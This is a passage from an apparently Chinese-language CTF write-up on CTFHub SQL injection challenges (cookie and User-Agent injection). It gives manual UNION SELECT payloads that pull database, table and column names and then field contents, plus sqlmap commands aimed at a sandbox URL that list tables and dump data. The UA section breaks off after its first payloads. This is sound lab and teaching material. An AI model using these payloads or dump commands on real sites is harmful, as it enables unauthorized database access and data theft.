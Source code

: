 尝试注入,查询数据库名

![image-20220609185001905](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609185001905.png)

成功查询到数据库名sqli

查询表名

![image-20220609185118785](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609185118785.png)

查询字段名

![image-20220609185238785](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609185238785.png)

查询字段信息

-1 union select 1,group_concat(kgsdqlfoph) from sqli.ylrpuanbhl

![image-20220609185840546](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609185840546.png)

##### 方法二：sqlmap

```
python sqlmap.py -u "http://challenge-47c00bc0db3c63c7.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 --dbs
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609191129064.png" alt="image-20220609191129064" style="zoom:80%;" />

```
python sqlmap.py -u "http://challenge-47c00bc0db3c63c7.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 -D sqli --tables
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609192236679.png" alt="image-20220609192236679" style="zoom:80%;" />

```
python sqlmap.py -u "http://challenge-47c00bc0db3c63c7.sandbox.ctfhub.com:10800/" --cookie "id=1" --level 2 -D sqli -T ylrpuanbhl --columns --dump
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609192411795.png" alt="image-20220609192411795" style="zoom:80%;" />



#### ***UA注入

##### 方法一：手动注入

**对UA进行注入判断：**-1 union select 1,2

![image-20220609214024321](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609214024321.png)

**得到数据库名：** -1 union select 1,database()

![image-20220609213032122](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609213032122.png)

